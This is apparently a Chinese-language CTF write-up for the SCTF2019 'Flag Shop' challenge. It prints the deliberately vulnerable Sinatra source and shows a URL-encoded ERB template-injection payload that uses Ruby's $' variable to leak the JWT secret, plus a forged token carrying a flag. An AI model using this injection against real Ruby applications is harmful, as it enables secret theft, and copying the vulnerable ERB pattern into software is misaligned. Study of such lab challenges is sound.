





# [SCTF2019]Flag Shop



## 知识点

- Ruby ERB注入

- JWT 

## 解题

访问robots.txt，提示`/filebak`，查看filebak发现源码

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end

```


主要代码

```ruby
  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

如果传入的参数do和name一致，则会输出params[:name][0,7]} working successfully!。ruby里有[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)

`$'`-最后一次成功匹配右边的字符串

构造`do=<%=$'%> is working`和`name=<%=$'%>`,记得把里面内容转成十六进制

```
 work?SECRET=&name=%3c%25%3d%24%27%25%3e&do=%3c%25%3d%24%27%25%3e%20is%20working
```





把修改的auth值重新发回去



得到一个auth值

```
eyJhbGciOiJIUzI1NiJ9.W3sidWlkIjoiNTI1YWZlMzMtN2JjMC00ZGVmLWJkYjEtZjY2ZGNjMzM4OGRlIiwiamtsIjoxLjJlKzI4fSx7ImFsZyI6IkhTMjU2In0seyJmbGFnIjoiZmxhZ3tlODk3MWE0MS1kZDliLTQyNDctOWYyZi0zY2VjYWY4OTU5NDN9In1d.mZn1jhy6P2s4hWugMZC9ePjOBTzU2MMoL0lrp9whf8Y
```

